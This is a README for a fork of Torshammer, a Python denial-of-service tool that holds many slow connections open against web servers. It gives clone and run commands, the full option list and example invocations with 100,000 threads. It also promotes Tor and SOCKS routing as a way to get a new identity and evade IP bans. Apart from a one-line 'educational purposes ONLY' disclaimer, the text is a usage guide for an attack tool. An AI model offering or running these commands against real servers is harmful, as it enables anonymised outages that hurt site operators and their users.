 # Use for educational purposes ONLY

## This is a maintained fork of Torshammer
- It works with the new TOR port 9050.
- Python 3.x version compatible.
  - If you need python 2.x version, please use [Karlheinzniebuhr's torshammer](https://github.com/Karlheinzniebuhr/torshammer)


## TORS HAMMER HOW TO

### Installation

Clone source code

```console
git clone https://github.com/kucingbasah737/kb737-torshammer
cd kb737-torshammer
```
### Usage

```console
python torshammer.py
```

or:
```console
python3 torshamer.py
```

```
./torshammer.py -t <target> [-r <threads>] [-p <port>] [-T] [-S <sockshost> -P <socksport>] [-i <seconds>] [-s <seconds>] [-h]
 -t|--target <Hostname|IP>
 -r|--threads <Number of threads> Defaults to 256
 -p|--port <Web Server Port> Defaults to 80
 -T|--tor Enable anonymising through tor on 127.0.0.1:9050
 -S|--sockshost <SOCKS host addrees> eg: 127.0.0.1
 -P|--socksport <SOCSS host port> Defaults to 1080
 -i|--max-delay <max seconds beetwen packets in float> Defaults to 3.0
 -s|--pre-sleep-on-thread-start <max seconds beetween starting threads> Default to none
 -h|--help Shows this help
```
You should now see a terminal-based GUI interface.
**Tor'shammer interface has it's own basic help menu that tells you how to run the script according to your target.**

Example usage:
```console
python torshammer.py -t 192.168.1.100 -r 100000 -T
```

```console
python torshammer.py -t 192.168.1.100 -r 100000 -S 127.0.0.1 -P 8080
```

```console
python torshammer.py -t 192.168.1.100 -r 100000 -i 3.0 -s 1.0
```

- The larger the thread count, the more efficient and effective the attack!!
- -T adds the Tor function which provides security, as well, as providing a new identity in case the site is
programmed to ban IP addresses which leave an open connection for "x" amount of time. Tor'shammer's method of
combining this is clever and effective, making it the powerful tool it is. However, Tor'shammer is only effective to
apache servers which do not run nginx.

### Alternatives
- Another python3 working fork is from [fckwarship](https://github.com/fckwarship/torshammer).
